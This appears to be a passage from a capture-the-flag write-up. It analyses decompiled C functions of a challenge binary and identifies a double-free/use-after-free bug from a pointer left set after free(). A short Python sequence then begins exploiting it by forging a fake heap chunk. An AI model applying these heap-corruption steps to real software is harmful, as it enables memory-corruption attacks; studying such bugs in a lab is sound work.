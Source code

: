 When we call `del` it will call `delStr` :

```c
int __fastcall delStr(unsigned int a1)
{
  Str *pStr; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  if ( (int)sub_401BE1() < 0 )
    return -4;
  if ( getStr(a1, &pStr) == -5 )
    return -5;
  free(pStr->s);
  pStr->id = -1;
  if ( ptr->ref )
    --ptr->ref;
  return 0;
}
```

We can see that it calls `free(pStr->s)` but doesn’t clear the pointer which can lead to double free or user after free.

The function `change` call `reEdit` :

```c

int __fastcall reEdit(unsigned int sIdx, int id, const void *buf, size_t size)
{
  Str *v7; // [rsp+20h] [rbp-10h]
  char *v8; // [rsp+28h] [rbp-8h]

  if ( sIdx >= ptr->cout )
    return -5;
  if ( id < 0 )
    return -5;
  v7 = &ptr->sList[sIdx];
  v7->id = id;
  if ( v7->s )
    free(v7->s);
  v8 = (char *)malloc(size + 1);
  if ( !v8 )
    return -6;
  v7->s = v8;
  memcpy(v7->s, buf, size);
  v7->s[size] = 0;
  return 0;
}
```

It frees the old pointer `free(v7->s)` and allocates new memory, but the bug is that maybe `v7->s` was deleted when calling `del` before that.

```python

add([(0,  0x20, b'0'*0x20)])
add([(1,  0x20, b'1'*0x20)])
add([(2,  0x600, b'2'*0x600)])

delete(2)
delete(0)

buf = b'0'*(0x100-0x10)+p64(0)+p64(0x31)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(2, 2, 0x68, b'_'*0x68)
```